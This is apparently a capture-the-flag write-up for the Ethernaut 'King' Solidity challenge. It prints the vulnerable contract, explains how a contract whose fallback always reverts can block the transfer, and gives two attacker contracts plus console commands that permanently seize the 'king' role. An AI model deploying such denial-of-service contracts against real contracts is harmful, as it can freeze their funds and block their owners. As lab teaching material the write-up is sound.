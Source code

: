 # King
```javascript
pragma solidity ^0.4.18;

import 'zeppelin-solidity/contracts/ownership/Ownable.sol';

contract King is Ownable {

  address public king;
  uint public prize;

  function King() public payable {
    king = msg.sender;
    prize = msg.value;
  }

  function() external payable {
    require(msg.value >= prize || msg.sender == owner);
    king.transfer(msg.value);
    king = msg.sender;
    prize = msg.value;
  }
}
```

In this challenge, you'll see contract construct itself as owner & king.

Who paid more on it will become king (not owner), you should remain `king` value as your account or any other contract's address.

As `require(msg.value >= prize || msg.sender == owner);`, once you submit, level will get king back cause to its ownership.

King contract's callback function will payback your payment and reset `king`'s and `prize`'s value for level.

Here's the point, `<address>.transfer()` can be reject and then return `false` to terminate the callback function.

So, obviously, we should deploy a new contract which has a always reject payment's callback function and can send some ether to target King contract.

```javascript
fromWei((await contract.prize()).toNumber())
// 1 ether
```

```javascript
pragma solidity ^0.4.18;

contract dosKing {

    function dosKing() public payable{}

    function freeMoney(address param) public {
        param.call.value(1.001 ether)();
    }
    function myBalance() public view returns(uint) {
        return address(this).balance;
    }
    function refill() public payable {
    }
    function () public {
        revert();
    }
}
```

![](https://i.imgur.com/BAcW3BL.png)

This seems fail in transition to ethernaut instance, but you can get you money back before you drop this ccontract.

```javascript
pragma solidity ^0.4.18;

contract dosKing {
    function dosKing(address param) public payable{
        param.call.gas(10000000).value(msg.value)();
    }
}
```

![](https://i.imgur.com/xsQ1s45.png)

This work fine.

```javascript
contract.sendTransaction({value:toWei(1.0001)})
```

This is most odd solution, why won't instance payback my money after I summit it to level?

This challenge remain question, maybe due to Solidity's update?

I will back to this misc, if I find out the answer.